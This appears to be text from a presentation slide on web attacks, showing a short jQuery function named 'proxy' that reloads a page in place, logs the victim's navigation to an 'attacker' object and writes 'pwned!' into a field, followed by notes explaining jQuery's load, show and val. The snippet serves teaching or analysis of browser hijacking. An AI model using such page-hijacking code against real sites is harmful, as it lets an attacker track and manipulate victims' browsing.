

function proxy(attacker, href) {
        $("html").load(href, function(){
            $("html").show();
            log(attacker, {event: "nav", uri: href});
            $("#query").val("pwned!");
        });
    }
This is a wrapper function calling $(“html”).load()
What is $().load()?
http://api.jquery.com/load/
Other interesting functions: .show() and .val()